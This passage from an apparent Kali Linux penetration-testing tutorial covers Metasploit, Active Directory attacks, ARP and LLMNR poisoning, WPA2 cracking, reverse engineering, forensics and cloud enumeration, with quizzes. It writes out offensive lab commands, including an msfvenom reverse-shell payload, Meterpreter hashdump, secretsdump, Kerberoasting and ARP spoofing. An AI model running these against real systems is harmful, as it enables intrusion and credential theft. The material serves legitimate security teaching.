> You can't reverse a hash, so cracking is a guessing race — and the algorithm sets the ceiling. Misidentifying it means using the wrong mode and getting nowhere; correctly identifying it tells you whether the crack is a minutes-long formality (a fast hash, often a misconfiguration to report) or practically impossible (a properly slow hash). The hash type is the most important fact in the room.

Q: Why do Metasploit payloads carry your `LHOST`/`LPORT`, and what does a reverse shell exploit about firewalls?
- [ ] To encrypt the connection
- [x] A reverse shell makes the exploited victim connect *out* to the attacker's listener rather than the attacker connecting *in* — because outbound connections are far more often permitted than inbound — so the payload needs the attacker's address to "call home"
- [ ] LHOST is the victim's address
- [ ] Reverse shells bypass authentication
> Most firewalls block unsolicited inbound connections but allow outbound traffic, so connecting *into* a victim usually fails. A reverse shell flips the direction: the payload running on the victim dials back to the attacker's waiting listener at `LHOST:LPORT`. This also illustrates Metasploit's exploit/payload separation — you pick *how* to get in and *what to do once in* independently, so one Meterpreter payload rides any exploit.
```

---

## 7. Exploitation and Frameworks

Exploitation is the phase beginners fixate on and professionals reach only after the work above is done, because exploitation is *easy when you've enumerated well* — you know the exact vulnerable version, you find the matching exploit, you run it — and impossible when you're guessing. The foundational technique is **exploit research**: you take the exact service-and-version strings from your enumeration (Section 4) and look them up against public vulnerability databases to find known exploits. `searchsploit` is the offline mirror of Exploit-DB, so `searchsploit apache 2.4.49` instantly tells you whether a public exploit exists for that exact version — which is why that version string from `nmap -sV` was the hinge of the whole assessment.

The central tool is the **Metasploit Framework**, and understanding it means understanding its model rather than its commands. Metasploit decomposes an attack into composable parts: an **exploit module** is the code that triggers a specific vulnerability to gain a foothold; a **payload** is what runs *after* the exploit succeeds (a reverse shell, or the powerful Meterpreter agent); **auxiliary modules** are the non-exploit tools (scanners, fuzzers, credential checkers); and **post modules** run against a session you already have to escalate and explore. The genius of the model is the separation of exploit from payload — you pick *how* to get in (the exploit, determined by the vulnerability) and *what to do once in* (the payload, determined by your goal) independently, so the same Meterpreter payload rides any of hundreds of exploits. A **reverse shell** — the most common payload pattern — is worth understanding mechanically: rather than the attacker connecting *in* to the victim (which the victim's firewall usually blocks), the exploited victim is made to connect *out* to the attacker's waiting listener, because outbound connections are far more often permitted than inbound. That's why payloads carry your `LHOST`/`LPORT` — they tell the victim where to call home.

`msfvenom` generates standalone payloads outside the framework (for delivering a reverse shell via a file upload you found in the web phase, say), and for the specific vulnerability classes, dedicated tools often beat the framework: `sqlmap` for SQL injection (Section 5), Pacu for AWS (Section 13). The principle across all of it is that exploitation is the *short* phase — if it's taking long, the problem is almost always insufficient enumeration, not insufficient firepower.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Searchsploit / Exploit-DB](https://www.kali.org/tools/exploitdb/) | Offline exploit research against discovered versions | `searchsploit apache 2.4.49` |
| [Metasploit Framework](https://www.kali.org/tools/metasploit-framework/) | Modular exploit/payload/session/post framework | `msfconsole` |
| [msfvenom](https://www.kali.org/tools/metasploit-framework/) | Standalone payload generation (for delivery you control) | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.0.2.50 LPORT=4444 -f elf -o p.elf` |
| [sqlmap](https://www.kali.org/tools/sqlmap/) | Exploit verified SQL injection end-to-end | `sqlmap -u 'http://dvwa.local/vulnerabilities/sqli/?id=1' --batch --dump` |

Research before you reach for the framework — the version string drives everything:

```bash
searchsploit openssh 8.2          # is there a public exploit for this exact version?
msfconsole                        # then: search, use <module>, set RHOSTS/LHOST, exploit
```

What you get when an exploit lands is a **session** — and with the Meterpreter payload, an interactive in-memory agent that turns a foothold into a workspace. A first post-exploitation loop reads almost like a checklist:

```
meterpreter > getuid          # who am I on this box?
meterpreter > sysinfo         # what is this box — OS, architecture, hostname?
meterpreter > getsystem       # attempt known local privilege escalations
meterpreter > hashdump        # if now SYSTEM: dump local password hashes (feeds Section 6)
meterpreter > background      # keep the session alive, return to msfconsole
msf > use post/multi/recon/local_exploit_suggester   # what else can I escalate with?
```

That sequence is Section 1's post-exploitation question — *now that you're in, how far can you go?* — made concrete: identify your privilege, escalate it, harvest credentials that unlock other hosts, and pivot, each command a step deeper into the network. It also shows why the exploit/payload split is useful in practice: the same Meterpreter session above can ride any of the hundreds of exploits that get you in the door, so you learn the post-exploitation workflow once and reuse it everywhere.

Master Metasploit's vocabulary — workspaces, the exploit/payload/auxiliary/post module types, sessions, and loot — and you have a mental filing system for the entire offensive toolkit, because the framework's structure *is* the structure of the kill chain's exploitation and post-exploitation phases.

```quiz
Q: Why is the exact version string from `nmap -sV` called the hinge of the whole assessment once you reach exploitation?
- [ ] Version strings are needed to log in
- [x] You look the exact service-and-version up against public exploit databases — `searchsploit apache 2.4.49` either finds a known public exploit or doesn't — so well-enumerated version facts turn exploitation into a lookup
- [ ] Newer versions are always the exploitable ones
- [ ] The version string is itself the password
> Exploit research takes the precise strings from enumeration and matches them to known vulnerabilities; `searchsploit` is the offline mirror of Exploit-DB, so it answers instantly whether a public exploit exists for that exact build. This is why beginners who skip enumeration flail here while professionals find exploitation short — the version string is what makes the match possible, so the work that found the way in actually happened back in Section 4.

Q: What does Metasploit's separation of *exploit* from *payload* buy you?
- [ ] It encrypts the exploit so AV can't see it
- [x] You choose *how to get in* (the exploit, fixed by the vulnerability) and *what to do once in* (the payload, fixed by your goal) independently — so one Meterpreter payload rides any of hundreds of exploits
- [ ] It lets a single exploit work against every version
- [ ] It removes the need for an attacker-side listener
> The framework decomposes an attack into composable parts: exploit modules trigger a vulnerability, payloads run after success, auxiliary modules scan and fuzz, post modules escalate an existing session. Separating exploit from payload means you mix and match — the same reverse shell or Meterpreter agent works behind whatever exploit fits the target, which is why learning Metasploit's vocabulary gives you a filing system for the whole exploitation phase.

Q: Your exploitation phase is dragging on. What's the usual real problem?
- [ ] You need a more powerful exploit
- [x] Insufficient enumeration — exploitation is *easy when you've enumerated well* (known version, matching exploit, run it) and impossible when guessing, so a long exploit phase means going back to enumerate, not reaching for more firepower
- [ ] The target is patched against everything
- [ ] Metasploit is the wrong framework for the job
> The methodology front-loads the work: a great pentest is a thorough enumeration phase followed by a short, precise exploitation phase. When exploitation drags, the fix is almost never a bigger exploit and almost always more enumeration — the exact service, version, or misconfiguration you haven't found yet. Beginners invert this and fixate on exploits; professionals reach exploitation last because by then it is a lookup.
```

---

## 8. Active Directory and Windows Post-Exploitation

Active Directory is the backbone of most corporate networks — the system that manages every user, computer, and permission in a Windows environment — and it is the single highest-value target class in modern penetration testing, which is a large part of why teams keep Kali around. The technique mindset for AD is fundamentally different from attacking a single host: **AD is about relationships, not individual machines.** A Windows domain is a graph of trust — users belong to groups, groups have rights over computers, computers trust the domain controller, administrators have sessions on machines that other users can reach — and compromise is almost never a single exploit; it is a *path* through that graph, from the low-privilege foothold you start with to the Domain Admin you want, hopping through misconfigurations and credential exposures.

This reframes post-exploitation as **path-finding**, and it is why the signature AD tool is BloodHound — a graph database that ingests the domain's relationships and literally computes the shortest path from your current access to domain dominance, turning "I have one user's credentials" into "here are the four steps to Domain Admin." The collection technique feeds it: tools like `bloodhound-ce-python` enumerate the domain over LDAP and SMB to gather who-can-do-what-to-whom, and BloodHound graphs it.

The specific AD techniques each exploit a different protocol surface, and knowing them as distinct attacks is the knowledge the critique of tool-tables-without-technique is asking for. **Kerberoasting** abuses Kerberos (AD's authentication protocol): any authenticated user can request a service ticket for any service account, and that ticket is encrypted with a key derived from the service account's password — so you request the ticket and crack it *offline* (Section 6), turning AD's own authentication into a password-hash source. **NTLM relay** abuses the older NTLM authentication: if you can position yourself to capture a victim's authentication attempt (often via name-resolution poisoning, Section 9) and *relay* it to another server before it completes, you authenticate *as the victim* without ever knowing their password — a pure trust-path attack, no cracking required. **AD CS abuse** (via Certipy) exploits misconfigured certificate templates to mint authentication certificates for arbitrary users. And `secretsdump` (Impacket) extracts password hashes directly once you have sufficient access, feeding the cracking phase or enabling **pass-the-hash** (authenticating with the hash itself, no plaintext needed, because NTLM authentication uses the hash as the secret).

| Tool | Technique it serves | Lab example |
|---|---|---|
| [NetExec](https://www.kali.org/tools/netexec/) | AD-aware enumeration & execution across SMB/WinRM/etc. | `netexec smb 192.0.2.30 -u analyst -p 'Password123!'` |
| [Impacket](https://www.kali.org/tools/impacket/) | Scriptable AD protocol attacks (Kerberos, SMB, MSSQL, relay) | `impacket-secretsdump lab.local/analyst:Pass@192.0.2.10` |
| [BloodHound](https://www.kali.org/tools/bloodhound/) + [collector](https://www.kali.org/tools/bloodhound-ce-python/) | Graph AD relationships; compute attack paths | `bloodhound-ce-python -d lab.local -u analyst -p 'Password123!' -ns 192.0.2.10 -c all` |
| [Certipy-ad](https://www.kali.org/tools/certipy-ad/) | AD CS certificate-template abuse analysis | `certipy-ad find -u analyst@lab.local -p 'Password123!' -dc-ip 192.0.2.10` |
| [Responder](https://www.kali.org/tools/responder/) | LLMNR/NBT-NS poisoning to capture authentication (lab-isolated) | `sudo responder -I eth0` |
| [evil-winrm](https://www.kali.org/tools/evil-winrm-py/) | Interactive WinRM shell once you have credentials | `evil-winrm-py -i 192.0.2.30 -u analyst -p 'Password123!'` |

A foothold-to-path-analysis workflow in a lab domain — enumerate, find a Kerberoastable account, request its ticket to crack, then map the graph:

```bash
netexec smb 192.0.2.30 -u analyst -p 'Password123!'        # what does this user reach?
impacket-GetUserSPNs lab.local/analyst:Password123! -dc-ip 192.0.2.10 -request   # Kerberoast
bloodhound-ce-python -d lab.local -u analyst -p 'Password123!' -ns 192.0.2.10 -c all   # graph
```

The lesson AD teaches better than any other target is that post-exploitation is path-finding through a trust graph, and that almost every step needs careful scope handling and proof — because in a real engagement, the difference between "I demonstrated a path to Domain Admin" and "I actually became Domain Admin on a production domain" is enormous, and the methodology exists to keep you on the right side of it.

```quiz
Q: Why is attacking Active Directory "about relationships, not individual machines"?
- [ ] AD has no individual hosts
- [x] A domain is a graph of trust — users in groups, groups with rights over computers, sessions reachable by others — so compromise is rarely a single exploit but a *path* through that graph from a low-priv foothold to Domain Admin
- [ ] AD can't be exploited per-host
- [ ] Every machine is identical
> Single-host attacks find a vulnerable service; AD attacks find a chain of trust misconfigurations and credential exposures linking your starting access to the target. This is why BloodHound is the signature tool — it ingests the domain's who-can-do-what-to-whom relationships and computes the shortest path to domain dominance, turning "I have one user's creds" into "here are four steps to Domain Admin."

Q: How does Kerberoasting turn AD's own authentication protocol into a password-hash source?
- [ ] It cracks the domain controller's key
- [x] Any authenticated user can request a Kerberos service ticket for any service account, and that ticket is encrypted with a key derived from the service account's password — so you request it and crack it *offline*, no lockout
- [ ] It relays the ticket to another server
- [ ] It exploits a buffer overflow
> Kerberoasting abuses a legitimate Kerberos feature: service tickets are encrypted with the service account's password-derived key, and requesting one is a normal authenticated action. Taking that ticket offline and cracking it (Section 6's offline attack) recovers weak service-account passwords with no online noise. It's the bridge between AD enumeration and the password-cracking phase.

Q: What does an NTLM relay attack accomplish without ever cracking a password?
- [ ] It brute-forces the hash faster
- [x] It captures a victim's authentication attempt (often via name-resolution poisoning) and relays it to another server before it completes, authenticating *as the victim* — a pure trust-path attack needing no plaintext or cracking
- [ ] It downgrades to Kerberos
- [ ] It requires Domain Admin first
> NTLM relay exploits the protocol's design: if you can position between a victim and a server and forward the live authentication exchange, the target server accepts you as the victim. No password, no hash cracking — just abusing the trust path. Pass-the-hash is the related idea (authenticate with the hash itself, since NTLM uses the hash as the secret). Both show AD attacks are often about credential *flow*, not credential *recovery*.
```

---

## 9. Network Attacks: Sniffing, Spoofing, and Relay

This is where Kali behaves like a true network-security platform, and the techniques here all exploit a single deep fact: **networks were largely designed to trust, not to verify.** Many core protocols — ARP, which maps IP addresses to hardware addresses; the Windows name-resolution protocols LLMNR and NBT-NS; DHCP — were built for cooperative environments and authenticate nothing, so a machine that simply *answers* a question authoritatively is believed. Every attack in this section is a variation on speaking up where you weren't supposed to.

The base technique is **packet sniffing**: capturing the traffic on a network segment to read what's flowing. On a switched network you normally only see your own traffic, which is why sniffing pairs with the active techniques below. The reading skill is the *filter* — capture filters (BPF syntax, applied at capture time to limit what's recorded) versus display filters (Wireshark's richer post-capture analysis language) — and the analysis skill is recognizing the protocols and spotting the interesting moment (a credential in cleartext, an authentication exchange, an unexpected connection) in a flood of packets.

The active techniques manufacture a **man-in-the-middle** position. **ARP spoofing** is the classic: you broadcast forged ARP replies telling the victim "I am the gateway" and telling the gateway "I am the victim," so both send their traffic through you, and because ARP has no authentication, both believe you. Now you sit in the middle of their conversation, able to read and modify it. **Name-resolution poisoning** (Responder's specialty) exploits a Windows quirk: when a machine fails to resolve a name via DNS, it falls back to *broadcasting* the question via LLMNR/NBT-NS to the whole local network — and Responder simply answers every such broadcast with "yes, that's me," causing the victim to attempt authentication *to the attacker*, handing over a crackable hash (Section 6) or a relayable credential (Section 8). This is why these two sections connect: name-resolution poisoning is the *capture* step that feeds NTLM relay's *path* step.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [tcpdump](https://www.kali.org/tools/tcpdump/) | Fast command-line packet capture with BPF filters | `sudo tcpdump -i eth0 -nn host 192.0.2.10` |
| [Wireshark / tshark](https://www.kali.org/tools/wireshark/) | Deep packet inspection and protocol analysis | `tshark -r capture.pcapng -Y 'http.request'` |
| [Bettercap](https://www.kali.org/tools/bettercap/) / [Ettercap](https://www.kali.org/tools/ettercap/) | ARP spoofing, MITM, on-path manipulation | `sudo ettercap -T -M arp:remote /192.0.2.10// /192.0.2.1//` |
| [Responder](https://www.kali.org/tools/responder/) | LLMNR/NBT-NS poisoning → credential capture | `sudo responder -I eth0` |

These tools are exactly the ones that demand absolute lab isolation, because ARP spoofing or name-resolution poisoning on a network you don't own disrupts and intercepts other people's traffic — a serious offense. In an isolated lab, observe before you act:

```bash
sudo tcpdump -i eth0 -nn net 192.0.2.0/24        # understand the segment first
wireshark                                         # then analyze a capture in depth
```

The unifying insight is that relay-style and on-path attacks depend on *trust paths*, not on breaking cryptography — they win by inserting themselves where a protocol assumed honesty, which is why the defenses are about *verification* (signing, mutual authentication, disabling the legacy fallback protocols) rather than encryption alone.

```quiz
Q: What single deep fact do ARP spoofing and LLMNR/NBT-NS poisoning both exploit?
- [ ] Weak encryption keys
- [x] Core protocols (ARP, LLMNR, NBT-NS, DHCP) were designed to trust, not verify — they authenticate nothing, so a machine that simply *answers* a question authoritatively is believed
- [ ] Buffer overflows in network drivers
- [ ] Predictable sequence numbers
> These protocols come from cooperative-environment assumptions and don't verify who's answering. ARP spoofing forges replies claiming "I am the gateway"; Responder answers every LLMNR/NBT-NS broadcast with "yes, that's me." Both win by speaking up where they weren't supposed to, and the victim believes them because nothing checks. Every attack in this section is a variation on that theme.

Q: How does ARP spoofing manufacture a man-in-the-middle position?
- [ ] By cracking the gateway's password
- [x] It broadcasts forged ARP replies telling the victim "I am the gateway" and the gateway "I am the victim," so both route traffic through the attacker — and because ARP has no authentication, both believe it
- [ ] By flooding the switch's MAC table
- [ ] By spoofing DNS responses
> ARP maps IPs to hardware addresses and authenticates nothing, so an attacker who answers ARP queries with their own MAC for both endpoints inserts themselves into the conversation. Both sides now send traffic through the attacker, who can read and modify it. On a switched network you'd otherwise see only your own traffic — this is the active step that makes sniffing the rest possible.

Q: Why does the guide say defenses against these attacks are "about verification rather than encryption alone"?
- [ ] Encryption is too slow on networks
- [x] Relay and on-path attacks abuse trust paths, not broken crypto — they insert themselves where a protocol assumed honesty, so the fixes are signing, mutual authentication, and disabling legacy fallback protocols, not just encrypting traffic
- [ ] Encryption doesn't work on ARP
- [ ] Verification is cheaper than encryption
> Encrypting a channel doesn't help if the attacker is a legitimate-looking endpoint the protocol trusted — they're inside the conversation, not eavesdropping from outside. NTLM relay and name-resolution poisoning win by being believed, so the countermeasures verify identity (SMB signing, mutual auth, turning off LLMNR/NBT-NS) to close the trust gap that authentication-free protocols left open.
```

---

## 10. Wireless and Hardware

Wireless is one of Kali's signature strengths, because attacking Wi-Fi requires a kernel and drivers that support **monitor mode** (capturing all wireless frames in the air, not just those addressed to you) and **packet injection** (transmitting crafted frames) — capabilities Kali ships tuned and most distributions don't, which is why wireless work "just works" here and fights you elsewhere. Hardware compatibility matters far more in this domain than any other: the technique is only as good as the wireless adapter's chipset, and choosing a known-good injection-capable adapter is the real prerequisite.

The headline technique is the **WPA2 handshake capture and offline crack**, and understanding it dispels the magic. WPA2 doesn't transmit the Wi-Fi password; instead, when a device joins the network, it performs a four-way handshake that *proves* both sides know the password without sending it, using values derived from it. The attack captures that handshake (by sniffing in monitor mode, optionally speeding things along by sending a *deauthentication* frame to knock a device off so it reconnects and you catch the handshake), then cracks it **offline** exactly like any other hash (Section 6): you take a candidate password, perform the same derivation the handshake used, and check whether it produces the captured values. So Wi-Fi cracking is not a network attack at all once you've captured the handshake — it's an offline guessing race, won by wordlist quality, which is why the workflow ends in Hashcat. This also explains why a strong WPA2 passphrase is genuinely secure (the offline crack fails) while a weak one falls fast.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [aircrack-ng](https://www.kali.org/tools/aircrack-ng/) | Monitor mode, capture, deauth, and cracking suite | `sudo airmon-ng start wlan0` |
| [hcxtools](https://www.kali.org/tools/hcxtools/) | Convert modern captures to a Hashcat-crackable format | `hcxpcapngtool -o hashes.22000 capture.pcapng` |
| [Kismet](https://www.kali.org/tools/kismet/) | Wireless discovery and multi-source passive capture | `kismet` |
| [Wifite](https://www.kali.org/tools/wifite/) | Guided end-to-end Wi-Fi auditing workflow | `sudo wifite` |
| [Proxmark3](https://www.kali.org/tools/proxmark3/) / [gqrx-sdr](https://www.kali.org/tools/gqrx-sdr/) | RFID/badge research; software-defined-radio signal work | `proxmark3` |

The full WPA2 workflow against *your own* access point — enable monitor mode, capture the handshake, convert, and crack offline:

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon                                  # find your AP and its channel
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool -o hashes.22000 capture.pcapng
hashcat -m 22000 hashes.22000 /usr/share/wordlists/rockyou.txt
```

The mental model: wireless attacks decompose into discovery, capture, and an offline crack, with the deauth as an optional accelerant — and the whole chain's success usually comes down to the password's strength against the wordlist, the same lesson as every other credential attack.

```quiz
Q: WPA2 never transmits the Wi-Fi password, so what does capturing the four-way handshake actually give you?
- [ ] The plaintext password, just sent encrypted
- [x] Values *derived from* the password that let you verify guesses offline — you run each candidate passphrase through the same derivation and check whether it reproduces the captured values, exactly like cracking any other hash
- [ ] A session key that grants network access directly
- [ ] Nothing useful without the router's cooperation
> The handshake proves both sides know the password without sending it, using password-derived values. Capturing it turns Wi-Fi cracking into an offline guessing race (Section 6): take a candidate, run the same derivation, compare. So once captured it's not a network attack at all — which is why the workflow ends in Hashcat, and why a strong passphrase is genuinely safe (the offline crack fails) while a weak one falls fast.

Q: What is the optional deauthentication frame for in the WPA2 capture workflow?
- [ ] It cracks the password faster
- [x] It knocks an already-connected device off the network so it reconnects, forcing a fresh four-way handshake you can capture — an accelerant, not a requirement, since you could simply wait for a natural reconnect
- [ ] It permanently disables the access point
- [ ] It removes the need to crack anything
> You can only capture a handshake when a device joins, so rather than wait, a deauth frame forces a reconnection on demand. It speeds up the *capture* step and changes nothing about the crack that follows. It's also why deauth is noisy and disruptive — and why aiming it at a network you don't own is exactly the kind of act that demands a controlled, isolated lab.

Q: Why does monitor mode plus packet injection "just work" on Kali but fight you on an ordinary Linux desktop?
- [ ] Kali uses a different Wi-Fi standard
- [x] Kali ships a kernel and drivers tuned to capture all in-air frames and transmit crafted ones — capabilities mainline drivers omit — so wireless work needs driver surgery elsewhere, and adapter chipset choice matters more here than in any other domain
- [ ] Ordinary Linux can't use Wi-Fi at all
- [ ] Kali turns off the firewall to allow it
> Monitor mode (seeing frames not addressed to you) and injection (sending arbitrary frames) are prerequisites for Wi-Fi attacks, and Kali's kernel patches enable them out of the box — one of the distribution's signature design choices from Section 1. The catch is hardware: the technique is only as good as the adapter's chipset, so a known-good injection-capable adapter is the real prerequisite for this whole section.
```

---

## 11. Reverse Engineering, Mobile, and Firmware

Kali is not only for network attacks; it is also a capable platform for understanding *binaries* — compiled programs, Android apps, and firmware images where the source code isn't available. The foundational technique distinction is **static** versus **dynamic** analysis. Static analysis examines a program *without running it* — disassembling its machine code back into something readable, reading its strings and structure — which is safe (you never execute potentially-malicious code) but limited to what's visible in the file. Dynamic analysis *runs* the program under a debugger and watches its actual behavior — what it reads, what it sends, how it transforms data — which reveals what static analysis can't see (decrypted values, runtime decisions) at the cost of actually executing the code, which for malware means doing so in isolation.

The reverse-engineering workhorse is the **decompiler** (Ghidra, the NSA's open-source suite, being the standout): disassembly turns machine code into assembly, but a decompiler goes further, reconstructing approximate *C-like source* from the assembly, which is dramatically easier to read and is what makes understanding a non-trivial binary tractable. For **Android**, the technique differs because APKs aren't native machine code — they're compiled to an intermediate bytecode, so `jadx` can decompile them back to fairly readable Java/Kotlin, and `apktool` decodes the app's resources and manifest, making Android reversing far more accessible than native binaries. For **firmware**, the key technique is **extraction**: a firmware image is usually not one program but many filesystems and archives glued together (a bootloader, a Linux root filesystem, configuration blobs), and `binwalk` scans the image for the signatures of known formats and carves them out — so "analyze this firmware" usually begins with `binwalk -e` to unpack it into its constituent pieces, which you then examine individually.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Ghidra](https://www.kali.org/tools/ghidra/) | Disassembly + decompilation to C-like source (GUI) | `ghidra` |
| [radare2](https://www.kali.org/tools/radare2/) / [Rizin](https://www.kali.org/tools/rizin/) | Terminal-first reverse engineering frameworks | `r2 suspicious.bin` |
| [gdb](https://www.kali.org/tools/gdb/) | Dynamic analysis: run under a debugger, inspect state | `gdb ./vuln` |
| [jadx](https://www.kali.org/tools/jadx/) / [apktool](https://www.kali.org/tools/apktool/) | Android decompilation and resource decoding | `jadx-gui app.apk` |
| [binwalk](https://www.kali.org/tools/binwalk/) | Firmware signature scanning and extraction | `binwalk -e firmware.bin` |

Unpacking an unknown firmware blob — carve it apart, skim its strings for clues, then decompile the interesting binary:

```bash
binwalk -e firmware.bin           # extract the filesystems/archives inside
strings firmware.bin | less       # quick pass for URLs, keys, version strings
ghidra                            # decompile a binary of interest from the extracted root
```

The mental model: static analysis reads the program, dynamic analysis watches it run, the decompiler is what makes static analysis humane, and firmware is a container to crack open before it's a program to read.

```quiz
Q: What's the core trade-off between static and dynamic binary analysis?
- [ ] Static analysis is always more accurate
- [x] Static reads the program without running it (safe, but limited to what's visible in the file); dynamic runs it under a debugger and watches real behavior (reveals decrypted values and runtime decisions, but you must actually execute the code — for malware, in isolation)
- [ ] Dynamic analysis cannot observe network traffic
- [ ] They always produce identical results
> Static analysis disassembles and reads strings and structure with zero execution risk, but can't see anything computed at runtime. Dynamic analysis observes the program actually running — decrypted strings, which branch it takes, what it sends — at the cost of running possibly-malicious code, which is why malware is detonated in a sandboxed VM. Real reversing uses both: static to map the program, dynamic to confirm what it does.

Q: A disassembler turns machine code into assembly. What does a decompiler like Ghidra add on top?
- [ ] It runs the binary inside a sandbox
- [x] It reconstructs approximate C-like source from the assembly, which is dramatically easier to read — and is what makes understanding a non-trivial binary tractable instead of wading through raw assembly
- [ ] It strips the program's encryption
- [ ] It converts the binary to Python
> Assembly is faithful but punishing to read at scale. A decompiler goes a step further, rebuilding higher-level structure — loops, conditionals, variables — into pseudo-C. That's why Ghidra is the workhorse: the decompiled view turns thousands of assembly instructions into something a human can follow, which is the difference between reversing being feasible and not.

Q: Why does analyzing firmware usually start with `binwalk -e` rather than opening the image in a decompiler?
- [ ] Firmware is always encrypted
- [x] A firmware image is usually many filesystems and archives glued together (bootloader, root filesystem, config blobs), so you first scan for known-format signatures and carve them out, then examine the individual pieces — it's a container to open before it's a program to read
- [ ] binwalk decompiles faster than Ghidra
- [ ] Decompilers cannot open firmware files
> Unlike a single executable, firmware is a composite blob. `binwalk` scans for the magic bytes of known formats and extracts the constituent filesystems and archives, so "analyze this firmware" begins by unpacking it into parts you can then explore — `strings` for quick clues, then Ghidra on an interesting binary from the extracted root filesystem.
```

---

## 12. Forensics and Incident Response

Kali is equally a defensive (DFIR — digital forensics and incident response) platform, and associating it only with offense misses half its value. The foundational technique is **timeline analysis**: a compromised system holds the evidence of what happened scattered across filesystem metadata, logs, and recoverable artifacts, and the investigator's core move is to reconstruct *when* each thing happened into a single ordered timeline, because the sequence is the story — file created, then executed, then network connection, then this other file modified, is a narrative an analyst can read. Tools like Plaso and the Sleuth Kit's `mactime` build these timelines from filesystem timestamps and log events.

Two technique distinctions structure the work. **Metadata versus content**: a file's metadata (when it was created, modified, accessed; who owns it; where it sits in the directory tree) often tells you more than its content, and crucially, deleting a file usually removes the directory *entry* (the metadata pointer) while leaving the *content* on disk untouched until overwritten — which is the basis of **file carving**, the technique of recovering deleted files by scanning the raw disk for the signatures of known file types (a JPEG's header, a ZIP's magic bytes) and reconstructing the file from the content directly, ignoring the filesystem entirely. Foremost and Scalpel carve; bulk-extractor pulls structured artifacts (emails, credit-card numbers, URLs) from raw images. And **recovery versus analysis**: getting the data back is a separate skill from understanding what it means — and the cardinal investigative rule is that *"found on disk" is not "was executed,"* because a malware sample sitting in a download folder and one that actually ran leave very different evidence, and conflating presence with execution is how investigations reach wrong conclusions.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [Sleuth Kit](https://www.kali.org/tools/sleuthkit/) / [Autopsy](https://www.kali.org/tools/autopsy/) | Filesystem analysis and timeline building (CLI / GUI) | `mmls disk.img` |
| [Plaso](https://www.kali.org/tools/plaso/) | Super-timeline generation across many artifact types | `plaso-log2timeline timeline.plaso disk.img` |
| [Foremost](https://www.kali.org/tools/foremost/) / [Scalpel](https://www.kali.org/tools/scalpel/) | File carving — recover deleted files by signature | `foremost -i disk.img -o out` |
| [bulk-extractor](https://www.kali.org/tools/bulk-extractor/) | Extract structured artifacts (emails, URLs, keys) from images | `bulk_extractor -o be-out disk.img` |
| [YARA](https://www.kali.org/tools/yara/) | Pattern-match known-bad signatures across files | `yara -r rules.yar samples/` |

A core timeline-and-recovery workflow against a disk image:

```bash
mmls disk.img                                  # partition layout
fls -r -m / disk.img > bodyfile.txt            # filesystem metadata, timeline-ready
mactime -b bodyfile.txt > timeline.txt         # ordered timeline of file activity
bulk_extractor -o artifacts disk.img           # carve structured artifacts
yara -r rules.yar artifacts/                    # flag known-bad patterns
```

The mental model is that forensics is timeline reconstruction over evidence that survives in metadata and unallocated space, and that the investigator's discipline — recovery is not analysis, presence is not execution — is what keeps the narrative honest.

```quiz
Q: Why is timeline analysis the foundational DFIR technique?
- [ ] It's the fastest way to image a disk
- [x] Evidence of what happened is scattered across filesystem metadata, logs, and recoverable artifacts, and reconstructing *when* each thing happened into one ordered sequence turns scattered facts into a readable narrative — file created, executed, then a network connection, then another file modified
- [ ] It is the only way to recover deleted files
- [ ] It encrypts the evidence for court
> The investigator's core move is ordering events into a single timeline, because the sequence *is* the story an analyst reads. Tools like Plaso and the Sleuth Kit's `mactime` build these super-timelines from timestamps and log events across many artifact types, converting a pile of metadata into a coherent account of the incident.

Q: Deleting a file usually removes its directory entry but leaves the content on disk. Which technique exploits that?
- [ ] Timeline analysis
- [x] File carving — scanning the raw disk for the signatures of known file types (a JPEG header, a ZIP's magic bytes) and reconstructing files from the content directly, ignoring the filesystem, which is why "deleted" data is often recoverable until overwritten
- [ ] Hash cracking
- [ ] Packet sniffing
> Deletion typically unlinks the metadata pointer, not the bytes, so the content survives in unallocated space until reused. Carving tools (Foremost, Scalpel) find files by their content signatures rather than filesystem entries, recovering them whole; bulk-extractor goes further, pulling structured artifacts (emails, card numbers, URLs) straight from a raw image.

Q: An investigator finds a malware sample in a downloads folder. Why can't they conclude it ran?
- [ ] Malware can't be stored on disk without running
- [x] "Found on disk" is not "was executed" — a sample that merely sits in a folder and one that actually ran leave very different evidence, and conflating presence with execution is how investigations reach wrong conclusions
- [ ] Download folders are wiped automatically
- [ ] The sample has to be decrypted first
> The cardinal investigative discipline is separating recovery from analysis and presence from execution. A downloaded-but-never-run file has no execution artifacts — no prefetch, no process or network evidence, no spawned child files — so claiming it ran requires that corroborating evidence. Keeping the distinction honest is what stops a timeline from becoming a wrong story.
```

---

## 13. Cloud, Secrets, and Social Engineering

Modern targets increasingly live in the cloud and in source code, and three technique areas round out the toolkit. **Cloud attack surface enumeration** exploits a structural fact: cloud resources are addressed by globally-unique, often-guessable names (an S3 bucket at `companyname-backups.s3.amazonaws.com`), so tools like `cloud-enum` probe predictable naming patterns to find publicly-exposed buckets, blobs, and functions — the cloud-era version of content discovery. Once you have a foothold in a cloud account, frameworks like Pacu automate the AWS-specific post-exploitation: enumerating permissions, finding privilege-escalation paths through IAM misconfigurations (the cloud analogue of the AD path-finding in Section 8).

**Secret scanning** exploits the most common modern leak: developers commit credentials — API keys, passwords, tokens — into source control, and even when later removed, they persist in git history. `gitleaks` and `trufflehog` scan repositories (and their full history) against patterns for known secret formats, because a single leaked AWS key in a commit from two years ago is frequently a direct path into the cloud account, bypassing every other control. This is why the defensive guides insist secrets never touch source.

**Social engineering** tooling exists in Kali but carries the heaviest ethical weight, because it targets *people*, and the line between an authorized awareness exercise and fraud is authorization and nothing else. The technique is psychological rather than technical — phishing, pretexting, baiting — and the tools (SET for phishing simulations, evilginx2 for credential-capture exercises) must only ever run inside an explicitly scoped, pre-approved red-team engagement or an isolated training lab. The right way to study this area is to focus on the *defensive* outcome — what makes people susceptible and how awareness training reduces it — rather than on the offensive mechanics for their own sake.

| Tool | Technique it serves | Lab example |
|---|---|---|
| [cloud-enum](https://www.kali.org/tools/cloud-enum/) | Find public cloud resources by naming patterns | `cloud_enum -k companyname` |
| [Pacu](https://www.kali.org/tools/pacu/) | AWS post-exploitation and IAM privesc auditing | `pacu` |
